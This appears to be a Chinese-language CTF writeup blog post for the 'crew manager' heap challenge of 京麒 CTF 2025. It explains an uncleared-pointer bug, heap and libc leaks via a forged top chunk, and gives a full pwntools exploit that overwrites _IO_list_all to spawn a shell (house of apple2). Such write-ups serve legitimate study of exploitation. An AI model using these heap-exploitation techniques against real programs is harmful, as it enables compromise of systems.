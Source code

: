 ```yaml
---
date: 2025-07-10 10:21:59
layout: post
title: 京麒 CTF 2025 writeup
subtitle: 
description: >-
    没错，到了快决赛的时候才写初赛 writeup，我绝对不是拖延症
image: >-
  /assets/img/uploads/star-rail-trio.jpg
optimized_image: >-
  /assets/img/uploads/star-rail-trio.jpg
category: half-finished
tags:
  - jqctf 2025
  - write to bk
  - stack exploitation
  - kernel pwn
  - spray file struct
  - change busybox permissions
  - malicious shellcode write
author: rosayxy
paginate: true
---
```


比赛的时候做了堆题，看了 kernel 题但是没解出来ww    

## crew manager
这个题不难，和今年 CodeGate Quals 的 [Secret Note](https://rosayxy.github.io/codegate-quals-2025-writeup/) 是一个漏洞，具体来说，**都是利用可以读写指向内容的未清空的 bk 搞事情**

### 漏洞
题目主要结构体如下
```c
struct crew{
  unsigned long long backup_size;
  char* backup_ptr;
  char name[0x20];
  char department[0x18];
  unsigned level;
  unsigned idx;
  unsigned time_0;
}
```

漏洞部分代码如下
```c
      __printf_chk(2LL, "Backup size (32-1280), default size 32: ");
      *(_QWORD *)v6 = 0x20LL;
      if ( (unsigned int)__isoc99_scanf("%zu", &size) == 1 )
      {
        do
          v8 = getc(stdin);
        while ( v8 != -1 && v8 != 10 );
        v9 = size;
        if ( size - 32 > 1248 )                 // size - 32 >= 0
        {
          puts("Invalid size.");
          return v17 - __readfsqword(0x28u);
        }
        *(_QWORD *)v6 = size;
        backup = calloc(1uLL, v9);
        *((_QWORD *)v6 + 1) = backup;
        // ...
      }
```
这里 `backup_size` 一开始赋值的是 0x20 而非0，然后 backup，所以如果我们输入一个大于 32 + 1248 的数，它 backup_size 是原先的 0x20，backup_ptr 也不会被清空，所以我们可以利用这个漏洞，读写 backup_ptr 指向的内容


### 打法
还是像 [CodeGate 这个 writeup](https://rosayxy.github.io/codegate-quals-2025-writeup/) 描述的打法，首先我们搞到一个 unsorted bin 的堆块，这样它的 bk 是 libc 地址，正好指向 main_arena 的 top_chunk 域

然后我们利用漏洞，让程序把该 bk 当成一个指向 backup 的内容的指针，利用原有的功能读出来值，也就是 top_chunk 地址，**从而拿到 heap leak**

我们可以写入该地址，也就是 top_chunk 的位置，从而造成堆上任意地址分配，也就是堆上任意地址读写

**对于 libc leak**，下一步，我们耗尽 unsorted bin chunk，从而所有堆块都需要从 top_chunk 里面切出来，然后我们在堆上某个位置伪造一个 top_chunk(注意伪造的 size，需要页对齐)，利用写入 main_arena 的 top_chunk 字段的方式，让该字段指向伪造的 top chunk

然后我们怎么 leak libc 呢？就把该 top chunk 的 0x8 offset 写成一个堆地址，该堆地址指向堆上残留的 libc 地址，我们接下来依次分配结构体的时候，backup_size 继续传一个很大的数，让他把 backup_ptr 当成我们恶意构造的地址，读出来该地址的内容，也就是 libc leak

此外，在之前步骤中，我们也有一个副产物，是一个堆重叠原语，可以改 `backup_ptr` 的值指向任意地址，也就是一个任意地址读写

我们利用该原语去写 `IO_list_all` 地址，打 house of apple2 就行了

### exp
```py
from pwn import*
context(log_level='debug', arch='amd64', os='linux')
p = process("./pwn")
# p = remote("39.106.16.204", 59253)
libc = ELF("./libc.so")
def global_ops_init(content):
    p.recvuntil(b"Choice: ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(b"1")
    p.recvuntil("data: ")
    p.send(content)


def global_ops_hash():
    p.recvuntil(b"Choice: ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(b"4")

def global_ops_print():
    p.recvuntil(b"Choice: ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(b"2")

def init_crew(idx, name, department, backup_size, backup, is_backup=True):
    p.recvuntil(b"Choice: ")
    p.sendline(b"1")
    p.recvuntil(b"Enter index: ")
    p.sendline(str(idx).encode())
    p.recvuntil("Name: ")
    p.send(name)
    p.recvuntil("Department: ")
    p.send(department)
    p.recvuntil("size 32: ")
    p.sendline(str(backup_size).encode())
    if is_backup:
        p.recvuntil("data: ")
        p.send(backup)

def delete_crew(idx):
    p.recvuntil(b"Choice: ")
    p.sendline(b"1")
    p.recvuntil(b"Enter index: ")
    p.sendline(str(idx).encode())
    p.recvuntil("> ")
    p.sendline(b"4")

def view_backup(idx):
    p.recvuntil(b"Choice: ")
    p.sendline(b"3")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil("> ")
    p.sendline(b"1")

def edit_backup(idx, backup):
    p.recvuntil(b"Choice: ")
    p.sendline(b"3")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil("content: ")
    p.send(backup)

global_ops_init(b"3"*512)
init_crew(0, b"1"*20 + b"\n", b"2"*20 + b"\n", 1280, b"3"*40 + b"\n")
# 先搞一个 unsorted bin
init_crew(1, b"1"*20 + b"\n", b"2"*20 + b"\n", 1280, b"3"*40 + b"\n")
delete_crew(0)
init_crew(2, b"1"*20 + b"\n", b"2"*20 + b"\n", 80, b"3"*40 + b"\n")
gdb.attach(p)
pause()
init_crew(3, b"1"*20 + b"\n", b"2"*20 + b"\n", 1300, b"3", False)
view_backup(3)
p.recvuntil("3: ")
heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("heap_leak: " + hex(heap_leak))
heap_base = heap_leak - 0xfa0
# libc leak
# 在某个堆块的 content 中伪造 top chunk，让它指向一个 libc 地址
# stuff a fake top chunk into the heap
init_crew(4, b"1"*20 + b"\n", b"2"*20 + b"\n", 0x3c0, p64(0) + p64(0x2061) + b"a"*8 + p64(heap_base + 0x588)+b"\n")
new_topchunk = heap_base + 0x660
edit_backup(3, p64(new_topchunk))
init_crew(5, b"1"*20 + b"\n", b"2"*20 + b"\n", 1300, b"3", False)
view_backup(5)
p.recvuntil("5: ")
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("libc_leak: " + hex(libc_leak))
# 0x7f5cc916bb20 - 0x7f5cc8f68000
libc_base = libc_leak - 0x203b20
log.info("libc_base: " + hex(libc_base))
# edit 4 的 backup
io_list_all = libc_base + 0x2044c0
fake_io_addr = heap_base + 0xaa0
edit_backup(4,p64(0) + p64(0x71) + p64(32) + p64(io_list_all))
edit_backup(5, p64(fake_io_addr))
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x205700)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x202228+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)
edit_backup(1, fake_io_file)
#trigger
# gdb.attach(p)
# pause()
p.recvuntil(b"Choice: ")
p.sendline("5")

p.interactive()
```

## old wine
